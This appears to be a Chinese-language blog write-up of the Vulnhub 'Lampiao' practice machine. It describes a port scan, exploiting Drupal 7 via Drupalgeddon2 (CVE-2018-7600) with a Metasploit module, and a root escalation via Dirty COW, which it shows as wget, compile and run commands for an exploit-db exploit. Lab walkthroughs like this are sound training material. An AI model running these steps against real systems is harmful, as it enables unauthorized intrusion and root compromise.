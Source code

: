 ```yaml
---
title: Vulnhub - Lampiao の Write-Up
date: 2020-01-14 20:28:20
categories:
- WriteUPs
- Vulnhub
tags:
- Web
---
```

## 前言

今天尝试了下[Lampiao](https://www.vulnhub.com/entry/lampiao-1,249/)靶机，这是一台很简单的靶机，没有任何难度。

<!-- more -->

## Step 1

老套路，找靶机IP然后扫描端口：

![](/img/Lampiao/Lampiao1.png)

![](/img/Lampiao/Lampiao2.png)

22，80，1898这三个端口一目了然，主要的注意力肯定在这个Drupal 7服务上。

## Step 2

80端口简单看一下：

![](/img/Lampiao/Lampiao3.png)

就是个幌子，分散注意力的，什么有用的都没有。直接聚焦到1898端口：

![](/img/Lampiao/Lampiao4.png)

关于Drupal服务，其实很熟悉，在[DC-1](https://coldwave96.github.io/2019/11/14/DC-1)这台靶机中就接触过了。在MSF中查找这个漏洞的利用模块，一个一个尝试，很快我们就得到了目标机器的emterpreter。

![](/img/Lampiao/Lampiao5.png)

回过头我们再去了解一下这个漏洞，这是[Drupalgeddon-2漏洞](https://xz.aliyun.com/t/2271)，CVE编号CVE-2018-7600，对于默认或常见的Drupal安装来说，该漏洞允许攻击者在未经身份验证的情况下远程执行代码。

## Step 3

得到的是低权限的shell，下一步当然就是提权了，通过查看靶机内核，发现这是一台ubuntu 14.04的机器，并且其存在[脏牛漏洞](https://www.freebuf.com/vuls/117331.html)。

通过脏牛漏洞提权即可获得root权限，flag.txt就在root根目录下：

```bash
$ wget https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![](/img/Lampiao/Lampiao6.png)
